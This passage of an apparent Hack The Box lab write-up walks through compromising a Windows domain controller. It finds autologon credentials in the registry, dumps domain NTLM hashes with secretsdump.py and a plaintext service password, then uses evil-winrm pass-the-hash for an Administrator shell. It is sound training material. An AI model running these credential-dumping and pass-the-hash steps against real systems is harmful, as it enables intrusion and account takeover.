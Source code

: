 ```
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Files an registry that may contain credentials <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Searching specific files that may contains credentials.
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\USER2
    DefaultPassword    REG_SZ    PASSSWORD
```
Okay let use ```secretsdump.py``` if this user2 have enough privilages, we migh be able to get admin's hash.
```console
kali@kali:~/impacket/examples$ python3 secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:"Moneymakestheworldgoround!"@10.10.10.175 -just-dc-ntlm
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:LMHASH:NTHASH:::
```
Now again user evil-winrm to get shell to the target server. this time we will use **pass the hash** attack to get access to the server

```cmd
kali@kali:~/HTB/sauna$ evil-winrm -h

Evil-WinRM shell v2.3

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -h, --help                       Display this help message

kali@kali:~/HTB/sauna$ evil-winrm -i 10.10.10.175 -u Administrator -H NTHASH

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


```